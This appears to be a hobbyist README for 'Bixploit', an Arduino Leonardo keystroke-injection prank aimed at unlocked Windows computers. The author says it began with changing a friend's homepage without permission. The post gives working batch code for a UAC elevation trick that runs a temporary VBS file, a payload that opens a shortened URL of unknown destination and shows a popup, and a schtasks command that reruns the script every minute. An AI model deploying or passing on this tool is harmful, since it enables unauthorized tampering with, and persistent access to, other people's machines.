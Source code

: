 # Bixploit

A friend of mine @bibbon always had the bad idea to leave his computer unlocked.
I told him to lock it, as it might be really unsecure.
I did not.
I changed his homepage to a really "nice" site.
We laught.

Some days later, he did it again. I changed his homepage again. We laught again but he told me that it's not useful to lock a computer if you went AFK less than 20 seconds.

So I create a small script designed for Arduino Leonardo to work as a keyboard and inject a custom task to Windows' task scheduler.

### The first part - the privilege escalation
```
@whoami /groups | find "S-1-16-12288" > nul && goto :admin
set "ELEVATE_CMDLINE=cd /d "%~dp0" & call "%~f0" %*"
findstr "^:::" "%~sf0">temp.vbs
cscript //nologo temp.vbs & del temp.vbs & exit /b
::: Set objShell = CreateObject("Shell.Application")
::: Set objWshShell = WScript.CreateObject("WScript.Shell")
::: Set objWshProcessEnv = objWshShell.Environment("PROCESS")
::: strCommandLine = Trim(objWshProcessEnv("ELEVATE_CMDLINE"))
::: objShell.ShellExecute "cmd", "/c " & strCommandLine, "", "runas"
:admin -------------------------------------------------------------
@echo off
echo.
cmd /k
```

### The second part - the main script
```
start http://goo.gl/x5sPkr"
Msg * "Friendly reminder: NEVER LEAVE YOUR COMPUTER WITHOUT SURVEILLANCE"
```

### The third part - the scheduler

```
schtasks /create /sc minute /mo 1 /tn "Bixploit" /tr C:\Bixploit.bat
```

## And now it runs !
The privilege escalation part is not mandatory but I thought it was fun to put it at the root of "C:\". Also, you need to have the correct keymapping for the Leoanardo.

**Use it for fun only !**
